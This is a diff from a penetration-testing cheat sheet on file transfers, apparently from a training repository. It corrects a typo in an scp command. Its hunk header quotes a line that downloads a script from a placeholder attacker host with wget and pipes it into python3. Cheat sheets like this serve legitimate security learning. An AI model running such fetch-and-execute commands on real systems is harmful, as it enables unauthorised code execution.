

Before and after one commit to HackingNaTuga/Zero2PwnTest, a Markdown page: File Transfers/file_transfers_cheat_sheet.md, the part around the change. Rendered like a GitHub page.

`````diff
--- a/File Transfers/file_transfers_cheat_sheet.md
+++ b/File Transfers/file_transfers_cheat_sheet.md
@@ -130,7 +130,7 @@ $ wget -qO- https://<IP_Attacker>/helloworld.py | python3
 
 **SSH**
 ````
-$ scp file_download <user>@<IP>:<path_directoru>
+$ scp file_download <user>@<IP>:<path_directory>
 ````
 
 ### Uploads
`````
